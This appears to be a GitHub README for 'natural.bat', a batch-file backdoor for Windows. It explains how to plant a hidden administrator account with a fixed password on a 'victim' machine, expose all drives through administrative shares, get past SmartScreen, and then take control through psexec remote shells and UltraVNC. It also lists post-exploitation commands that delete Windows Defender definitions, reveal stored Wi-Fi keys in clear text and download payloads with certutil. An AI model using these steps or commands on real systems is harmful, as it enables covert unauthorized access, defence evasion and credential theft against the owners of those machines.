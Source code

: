 # Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.

# How does it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'Default' user with password 'admin0' into administrators group.
- Hides 'Default' user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.

# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/natural.bat. From now on the batch file can be run without limitation. 

# Using
The address \\\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The Default:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rules for samba access (windows shares)l. 

![Administrative shares](assets/administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer at the end. The alias string entered is saved at the end of the natural.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.

# Next Stage 1: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

![Remote shell](assets/remote-shell.png "Remote shell")


# Next Stage 2: Remote Desktop

 -  [Click](uvnc.md) for further steps to remote control victim computer with UltraVNC.
 - You may be interested in [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn) and [AutoRDPwn Dosc](https://darkbyte.net/autordpwn-la-guia-definitiva/)

# Usefull shell commands

| Command|Description|
|--------------|-----------|
|wmic process list brief| **Shows running process**|
|wmic useraccount| **Shows user accounts.**|
|wmic logicaldisk get caption,description,providername|**Show mounted disks**|
|wmic /Node:localhost /Namespace:\\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List|**Show installed Antivirus softwares**|
|sc query windefend |**Show service status of Microsoft Windows Defender.**|
|"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All | **Delete all rules of Defender (useful for machines without internet access)**|
|netsh wlan show profiles |**List stored wireless connection profiles.**|
|netsh wlan show profile name=<SSID Name> key=clear| **Show stored wireless key as clear text.**|
|certutil.exe -urlcache -split -f "url" setup.exe|**Downloads a file from command line without any external tool.**|
|fsutil fsinfo drives|**Get fixed disk drives list.** |
|dir C:\$Recycle.Bin /s /b |**Show recyle bin content.**|
|systeminfo|**Show system info.**|

 - [click](https://github.com/security-cheatsheet/cmd-command-cheat-sheet) some functional command examples. 
 - [click](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters) basic commands for Pentesters 
 - [click](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png) to check "got administrator access" section in diagram.





# Uninstall
Just run unatural.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.

# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

# Donation

Would you like to buy me a coffee? [Click](https://www.buymeacoffee.com/ozgurkoca).
